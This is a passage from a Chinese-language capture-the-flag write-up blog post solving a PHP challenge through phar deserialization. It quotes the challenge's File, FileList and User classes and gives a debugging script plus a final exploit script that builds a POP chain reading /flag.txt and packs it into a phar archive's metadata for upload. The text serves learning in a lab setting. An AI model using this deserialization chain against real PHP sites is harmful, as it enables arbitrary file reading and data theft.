<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">File</span> </span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $filename=<span class="string">&quot;test.txt&quot;</span>;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">close</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">        <span class="keyword">echo</span> file_get_contents(<span class="keyword">$this</span>-&gt;filename);</span><br><span class="line">        <span class="keyword">return</span> file_get_contents(<span class="keyword">$this</span>-&gt;filename);</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<p>于是就卡住了，上下再审计代码，找一个echo函数，发现恰好就在FileList当中。。：</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__destruct</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">        $table = <span class="string">&#x27;&lt;div id=&quot;container&quot; class=&quot;container&quot;&gt;&lt;div class=&quot;table-responsive&quot;&gt;&lt;table id=&quot;table&quot; class=&quot;table table-bordered table-hover sm-font&quot;&gt;&#x27;</span>;</span><br><span class="line">        $table .= <span class="string">&#x27;&lt;thead&gt;&lt;tr&gt;&#x27;</span>;</span><br><span class="line">        <span class="keyword">foreach</span> (<span class="keyword">$this</span>-&gt;funcs <span class="keyword">as</span> $func) &#123;</span><br><span class="line">            $table .= <span class="string">&#x27;&lt;th scope=&quot;col&quot; class=&quot;text-center&quot;&gt;&#x27;</span> . htmlentities($func) . <span class="string">&#x27;&lt;/th&gt;&#x27;</span>;</span><br><span class="line">        &#125;</span><br><span class="line">        $table .= <span class="string">&#x27;&lt;th scope=&quot;col&quot; class=&quot;text-center&quot;&gt;Opt&lt;/th&gt;&#x27;</span>;</span><br><span class="line">        $table .= <span class="string">&#x27;&lt;/thead&gt;&lt;tbody&gt;&#x27;</span>;</span><br><span class="line">        <span class="keyword">foreach</span> (<span class="keyword">$this</span>-&gt;results <span class="keyword">as</span> $filename =&gt; $result) &#123;  <span class="comment">//这句是全局的核心</span></span><br><span class="line">            $table .= <span class="string">&#x27;&lt;tr&gt;&#x27;</span>;</span><br><span class="line">            <span class="keyword">foreach</span> ($result <span class="keyword">as</span> $func =&gt; $value) &#123;</span><br><span class="line">                $table .= <span class="string">&#x27;&lt;td class=&quot;text-center&quot;&gt;&#x27;</span> . htmlentities($value) . <span class="string">&#x27;&lt;/td&gt;&#x27;</span>;</span><br><span class="line">            &#125;</span><br><span class="line">            $table .= <span class="string">&#x27;&lt;td class=&quot;text-center&quot; filename=&quot;&#x27;</span> . htmlentities($filename) . <span class="string">&#x27;&quot;&gt;&lt;a href=&quot;#&quot; class=&quot;download&quot;&gt;下载&lt;/a&gt; / &lt;a href=&quot;#&quot; class=&quot;delete&quot;&gt;删除&lt;/a&gt;&lt;/td&gt;&#x27;</span>;</span><br><span class="line">            $table .= <span class="string">&#x27;&lt;/tr&gt;&#x27;</span>;</span><br><span class="line">        &#125;</span><br><span class="line">        <span class="keyword">echo</span> $table;</span><br></pre></td></tr></table></figure>

<p>想办法，能够控制result，发现题目也正好给出了call这个魔术方法：</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__call</span>(<span class="params">$func, $args</span>) </span>&#123;</span><br><span class="line">        array_push(<span class="keyword">$this</span>-&gt;funcs, $func);</span><br><span class="line">        <span class="keyword">foreach</span> (<span class="keyword">$this</span>-&gt;files <span class="keyword">as</span> $file) &#123;</span><br><span class="line">            <span class="keyword">$this</span>-&gt;results[$file-&gt;name()][$func] = $file-&gt;$func();</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br></pre></td></tr></table></figure>

<p>自己看了一些，这个其实就是一个手写的回调函数嘛。</p>
<p>于是尝试思考，我们可以通过FileList出发</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br></pre></td><td class="code"><pre><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">User</span> </span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $db;</span><br><span class="line">&#125;</span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">File</span> </span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $filename;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">FileList</span> </span>&#123;</span><br><span class="line">    <span class="keyword">private</span> $files;</span><br><span class="line">    <span class="keyword">private</span> $results;</span><br><span class="line">    <span class="keyword">private</span> $funcs;<span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__construct</span>(<span class="params">$path</span>) </span>&#123;</span><br><span class="line">        $files = <span class="keyword">new</span> File();</span><br><span class="line">        <span class="keyword">$this</span>-&gt;funcs = <span class="keyword">array</span>($files);</span><br><span class="line">        $filenames =<span class="string">&quot;/flag.txt&quot;</span>;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<p>我们先new一个User类出来，并将db指向FileList，之后类会被销毁，将会调用FileList当中的call方法，call方法需要我们指定参数名和filename，所以在__construct中进行修改,最终调试得</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">User</span> </span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $db;</span><br><span class="line"></span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__construct</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">        <span class="keyword">global</span> $db;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;db = $db;</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__destruct</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;db-&gt;close();</span><br><span class="line"><span class="comment">//        phpinfo();</span></span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">FileList</span> </span>&#123;</span><br><span class="line">    <span class="keyword">private</span> $files;</span><br><span class="line">    <span class="keyword">private</span> $results;</span><br><span class="line"></span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__construct</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">        $file = <span class="keyword">new</span> File();</span><br><span class="line"><span class="comment">//        $this-&gt;results = array();</span></span><br><span class="line">        $file-&gt;filename = <span class="string">&quot;test.txt&quot;</span>;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;files = <span class="keyword">array</span>($file);</span><br><span class="line"></span><br><span class="line"><span class="comment">//        var_dump($file);</span></span><br><span class="line"></span><br><span class="line"><span class="comment">//        phpinfo();</span></span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__call</span>(<span class="params">$func, $args</span>) </span>&#123;</span><br><span class="line"><span class="comment">//        phpinfo();</span></span><br><span class="line">        <span class="keyword">foreach</span> (<span class="keyword">$this</span>-&gt;files <span class="keyword">as</span> $file) &#123;</span><br><span class="line"><span class="comment">//            var_dump( $file-&gt;$func());</span></span><br><span class="line">            <span class="comment">//将result设置成test.txt当中的内容</span></span><br><span class="line">            <span class="keyword">$this</span>-&gt;results[$file-&gt;name()][$func] = $file-&gt;$func();</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__destruct</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line"><span class="comment">//销毁的时候就会被输出了！</span></span><br><span class="line">        <span class="keyword">foreach</span> (<span class="keyword">$this</span>-&gt;results <span class="keyword">as</span> $filename =&gt; $result) &#123;</span><br><span class="line">            $table = <span class="string">&#x27;&lt;tr&gt;&#x27;</span>;</span><br><span class="line">            <span class="keyword">foreach</span> ($result <span class="keyword">as</span> $func =&gt; $value) &#123;</span><br><span class="line">                $table .=  htmlentities($value);</span><br><span class="line">            &#125;</span><br><span class="line">            $table .=   htmlentities($filename);</span><br><span class="line">        &#125;</span><br><span class="line">        <span class="keyword">echo</span> $table;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">File</span> </span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $filename;</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">name</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">        <span class="keyword">return</span> basename(<span class="keyword">$this</span>-&gt;filename);</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">close</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">        <span class="keyword">return</span> file_get_contents(<span class="keyword">$this</span>-&gt;filename);</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line">$a = <span class="keyword">new</span> User();</span><br><span class="line">$a-&gt;db = <span class="keyword">new</span> FileList();</span><br><span class="line"></span><br><span class="line"><span class="meta">?&gt;</span></span><br><span class="line"></span><br><span class="line"></span><br></pre></td></tr></table></figure>

<p>调试成功之后构造exp</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">User</span> </span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $db;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">FileList</span> </span>&#123;</span><br><span class="line">    <span class="keyword">private</span> $files;</span><br><span class="line">    <span class="keyword">private</span> $results;</span><br><span class="line"></span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__construct</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">        $file = <span class="keyword">new</span> File();</span><br><span class="line"><span class="comment">//        $this-&gt;results = array();</span></span><br><span class="line">        $file-&gt;filename = <span class="string">&quot;/flag.txt&quot;</span>;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;files = <span class="keyword">array</span>($file);</span><br><span class="line">        &#125;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">File</span> </span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $filename;</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">name</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">        <span class="keyword">return</span> basename(<span class="keyword">$this</span>-&gt;filename);</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">close</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">        <span class="keyword">return</span> file_get_contents(<span class="keyword">$this</span>-&gt;filename);</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line">$a = <span class="keyword">new</span> User();</span><br><span class="line">$a-&gt;db = <span class="keyword">new</span> FileList();</span><br><span class="line">@unlink(<span class="string">&quot;5.phar&quot;</span>);</span><br><span class="line">$phar = <span class="keyword">new</span> Phar(<span class="string">&quot;5.phar&quot;</span>); <span class="comment">//后缀名必须为phar</span></span><br><span class="line">$phar-&gt;startBuffering();</span><br><span class="line">$phar-&gt;setStub(<span class="string">&quot;&lt;?php __HALT_COMPILER(); ?&gt;&quot;</span>); <span class="comment">//设置stub;</span></span><br><span class="line"></span><br><span class="line">$phar-&gt;setMetadata($a); <span class="comment">//将自定义的meta-data存入manifest  //如果我们是要写phar🐎就用下面的，不然就用上面的setMeatadata</span></span><br><span class="line">$phar-&gt;addFromString(<span class="string">&quot;test.php&quot;</span>, <span class="string">&quot;test&quot;</span>); <span class="comment">//添加要压缩的文件</span></span><br><span class="line"><span class="comment">//签名自动计算</span></span><br><span class="line">$phar-&gt;stopBuffering();</span><br><span class="line"><span class="meta">?&gt;</span></span><br></pre></td></tr></table></figure>

<p>之后用burp上传，删除的时候读取文件即可：</p>
<p></p>

            <!--[if lt IE 9]><script>document.createElement('audio');</script><![endif]-->
            <audio id="audio" loop="1" preload="auto" controls="controls" data-autoplay="false">
                <source type="audio/mpeg" src="">
            </audio>
            
                <ul id="audio-list" style="display:none">
                    
                        
                            <li title='0' data-url='http://link.hhtjim.com/163/425570952.mp3'></li>
                        
                    
                        
                            <li title='1' data-url='http://link.hhtjim.com/163/425570952.mp3'></li>
                        
                    
                </ul>
            
        </div>
        
    <div id='gitalk-container' class="comment link"
		data-enable='true'
        data-ae='false'
        data-ci=''
        data-cs=''
        data-r='https://github.com/ysllz/ysllz.github.io'
        data-o='https://github.com/ysllz/ysllz.github.io'
        data-a='ysllz'
        data-d='false'
    >查看评论</div>


    </div>
    
        <div class='side'>
			<ol class="toc"><li class="toc-item toc-level-1"><a class="toc-link" href="#1-%E7%9F%A5%E8%AF%86%E7%82%B9%E5%AD%A6%E4%B9%A0"><span class="toc-number">1.</span> <span class="toc-text">1.知识点学习</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#1-1-phar%E6%B5%81"><span class="toc-number">1.1.</span> <span class="toc-text">1.1 phar流</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#1-1-1-phar%E5%86%99%F0%9F%90%8E%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB"><span class="toc-number">1.1.1.</span> <span class="toc-text">1.1.1 phar写🐎文件包含</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#1-1-2-phar%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96"><span class="toc-number">1.1.2.</span> <span class="toc-text">1.1.2 phar反序列化</span></a></li></ol></li><li class="toc-item toc-level-2"><a class="toc-link" href="#1-2-open-basedir"><span class="toc-number">1.2.</span> <span class="toc-text">1.2 open_basedir</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#2-%E5%81%9A%E9%A2%98%E6%80%9D%E8%B7%AF"><span class="toc-number">2.</span> <span class="toc-text">2.做题思路</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#1-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96"><span class="toc-number">2.1.</span> <span class="toc-text">1.任意文件读取</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#2-%E6%9E%84%E9%80%A0phar%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96"><span class="toc-number">2.2.</span> <span class="toc-text">2.构造phar反序列化</span></a></li></ol></li></ol>	
        </div>
    
</div>


    </div>
</div>
</body>

<script src="//cdn.jsdelivr.net/npm/gitalk@1/dist/gitalk.min.js"></script>


<script src="//lib.baomitu.com/jquery/1.8.3/jquery.min.js"></script>
<script src="/js/plugin.js"></script>
<script src="/js/typed.js"></script>
<script src="/js/diaspora.js"></script>


<link rel="stylesheet" href="/photoswipe/photoswipe.css">
<link rel="stylesheet" href="/photoswipe/default-skin/default-skin.css">


<script src="/photoswipe/photoswipe.min.js"></script>
<script src="/photoswipe/photoswipe-ui-default.min.js"></script>


<!-- Root element of PhotoSwipe. Must have class pswp. -->
<div class="pswp" tabindex="-1" role="dialog" aria-hidden="true">
    <!-- Background of PhotoSwipe. 
         It's a separate element as animating opacity is faster than rgba(). -->
    <div class="pswp__bg"></div>
    <!-- Slides wrapper with overflow:hidden. -->
    <div class="pswp__scroll-wrap">
        <!-- Container that holds slides. 
            PhotoSwipe keeps only 3 of them in the DOM to save memory.
            Don't modify these 3 pswp__item elements, data is added later on. -->
        <div class="pswp__container">
            <div class="pswp__item"></div>
            <div class="pswp__item"></div>
            <div class="pswp__item"></div>
        </div>
        <!-- Default (PhotoSwipeUI_Default) interface on top of sliding area. Can be changed. -->
        <div class="pswp__ui pswp__ui--hidden">
            <div class="pswp__top-bar">
                <!--  Controls are self-explanatory. Order can be changed. -->
                <div class="pswp__counter"></div>
                <button class="pswp__button pswp__button--close" title="Close (Esc)"></button>
                <button class="pswp__button pswp__button--share" title="Share"></button>
                <button class="pswp__button pswp__button--fs" title="Toggle fullscreen"></button>
                <button class="pswp__button pswp__button--zoom" title="Zoom in/out"></button>
                <!-- Preloader demo http://codepen.io/dimsemenov/pen/yyBWoR -->
                <!-- element will get class pswp__preloader--active when preloader is running -->
                <div class="pswp__preloader">
                    <div class="pswp__preloader__icn">
                      <div class="pswp__preloader__cut">
                        <div class="pswp__preloader__donut"></div>
                      </div>
                    </div>
                </div>
            </div>
            <div class="pswp__share-modal pswp__share-modal--hidden pswp__single-tap">
                <div class="pswp__share-tooltip"></div> 
            </div>
            <button class="pswp__button pswp__button--arrow--left" title="Previous (arrow left)">
            </button>
            <button class="pswp__button pswp__button--arrow--right" title="Next (arrow right)">
            </button>
            <div class="pswp__caption">
                <div class="pswp__caption__center"></div>
            </div>
        </div>
    </div>
</div>


</html>
